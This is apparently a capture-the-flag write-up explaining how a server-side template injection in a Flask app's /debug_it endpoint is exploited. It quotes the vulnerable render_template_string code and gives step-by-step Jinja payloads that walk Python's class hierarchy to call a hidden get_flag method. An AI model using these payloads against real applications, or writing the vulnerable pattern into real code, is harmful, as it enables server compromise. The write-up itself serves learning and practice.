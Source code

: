 
## Solution

1.  Looking at the source code of main page you can find `/debug_it` endpoint.
 
![Html source code](images/1.png)

2. Part that interests us is here:
```python
ip = request.args.get('ip') or None
if ip is None:
    .
    .
else:
    location = get_location_for(ip)
    try:
        template = render_template_string(render_template('results.html', ip=ip, location=location))
        return template
    except Exception as e:
        logging.error(e)
        abort(500)
```
We can see here that unsaintized IP is passed directly to the HTML

4. We will use Jinja templates. Usefull Jinja/python code:
   
- `__class__` - access working class
- `__mro__` - access classe's parents
- `__subclasses__` - access classe's sublclasses

### Step by step

- We can use `__class__` and `__mro__` to access parents of our main class:
```jinja
{{request.__class__.__mro__}}
```

![mro](images/2.png)

- Now we need to get subclasses of root Object
```jinja
{{request.__class__.__mro__[11].__subclasses__()}}
```

![sub](images/3.png)

- We have our Flag `(in my case it is 495th in array of subclasses)` class but we want to see it's methods:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[495].__dict__}}
```

![dict](images/4.png)

- There it is! Now just access method `get_flag` directly:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[495].get_flag()}}
```

![flag](images/5.png)